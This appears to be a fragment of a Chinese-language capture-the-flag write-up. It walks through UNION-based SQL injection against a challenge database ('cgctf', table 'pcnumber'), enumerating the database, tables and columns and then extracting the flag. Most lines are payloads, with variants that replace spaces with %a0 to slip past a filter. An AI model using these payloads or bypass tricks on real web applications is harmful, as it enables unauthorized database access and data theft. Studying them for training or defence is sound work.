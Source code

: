 

爆字段：

```
1' and 1=2 union select 1,(select group_concat(flag) from cgctf.pcnumber),3,4 #
```

```
1%27%a0and%a01=2%a0union%a0select%a01,(select%a0group_concat(flag)%a0from%a0cgctf.pcnumber),3,4%a0||%27
```



#### MyWP

```
1' union select 1,database(),3,4 --+
```

```
1%27%a0union%a0select%a01,database(),3,4%a0||%27
```

查询到库名cgctf



```
1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='cgctf' --+
```

```
1'%a0union%a0select%a01,group_concat(table_name),3,4%a0from%a0information_schema.tables%a0where%a0table_schema='cgctf'%a0||%27
```

查询到表pcnumber，其实题目已经给了



然后可以查询表名的数据

```
1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='pcnumber'--+
```

```
1'%a0union%a0select%a01,group_concat(column_name),3,4%a0from%a0information_schema.columns%a0where%a0table_name='pcnumber'%a0||%27
```

查询到id,bigtime,smalltime,flag



然后继续往下面查

查询flag字段的值

注意看细节

```
1' union select 1,(select group_concat(flag) from cgctf.pcnumber),3,4 --+
```
